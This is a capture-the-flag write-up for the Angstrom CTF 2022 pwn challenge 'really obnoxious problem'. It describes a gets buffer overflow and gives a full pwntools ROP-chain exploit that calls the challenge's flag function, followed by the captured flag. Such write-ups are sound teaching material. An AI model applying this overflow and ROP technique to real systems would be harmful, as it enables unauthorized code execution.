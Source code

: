 ```yaml
---
title: "[Pwn] really obnoxious problem [Angstrom CTF 2022]"
date: 2022-05-07 00:02:00
---
```


# 0x0 Introduction

You know the drill.

nc challs.actf.co 31225

Author: JoshDaBosh

files: [really_obnoxious_problem](really_obnoxious_problem)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


# 0x2 Vulnerability

simple buffer overflow, `main` function use `gets`. overwrite rip to a ropchain that calls `sym.flag`. 

`sym.flag` check two parameter, so we also need set `rdi` and `rsi` to the correct value in the ropchain.


# 0x3 Exploit

```
from pwn import *

io = connect("challs.actf.co",31225)
exe = context.binary = ELF("really_obnoxious_problem")
exe_rop = ROP(exe)
ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]
# pop_rsi_ret_addr = exe_rop.find_gadget(['pop rsi', 'ret'])[0]
io.sendlineafter(b"Name:",b"bobby"+b'A'*(49-5))
io.sendlineafter(b"Address:",flat({
    0x40+0x8:[
        pop_rdi_ret_addr,
        0x1337,
        0x00000000004013f1, # pop rsi, pop something ret
        exe.symbols["name"],
        0,
        exe.sym["flag"]
    ]}))

io.interactive()

```

# 0x4 Flag

actf{so_swe3t_so_c0ld_so_f4ir_7167cfa2c019}
